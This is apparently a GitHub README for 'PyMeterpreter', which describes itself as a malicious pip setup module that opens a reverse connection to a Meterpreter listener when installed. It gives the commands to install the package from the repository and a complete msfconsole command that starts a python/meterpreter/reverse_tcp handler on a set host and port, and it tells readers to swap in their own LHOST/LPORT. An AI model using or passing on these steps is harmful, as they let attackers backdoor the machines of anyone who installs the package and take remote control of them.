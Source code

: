 # PyMeterpreter

This is a malicious Python PIP setup module which connects back to a staged Meterpreter listener.

You'll probably want to clone the repo, and then change your LHOST/LPORT before using ;-)

## Usage

There are a couple of ways to install/run the code from the shell:

### Direct from Git repo:
`pip install git+https://github.com/ben0/PyMeterpreter`

### Clone the Git repo:
`git clone https://github.com/ben0/PyMeterpreter`\
`pip install ./PyMeterpreter --upgrade`

### Fire up MSF
`msfconsole -x "use exploit/multi/handler; set payload python/meterpreter/reverse_tcp; set LHOST 172.16.10.10; set LPORT 443; exploit -j"`
